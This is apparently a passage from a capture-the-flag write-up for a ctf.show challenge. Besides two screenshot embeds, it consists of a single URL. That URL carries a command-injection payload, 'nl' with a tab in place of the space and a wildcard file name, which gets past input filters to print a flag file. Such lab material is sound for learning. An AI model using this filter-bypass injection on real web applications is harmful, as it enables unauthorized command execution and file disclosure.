 <figure><img src="../.gitbook/assets/image (17) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
http://68c081bd-8321-4230-8e52-2daffaae81f8.challenge.ctf.show/?c=nl%09fla?.php||
```

<figure><img src="../.gitbook/assets/image (18) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

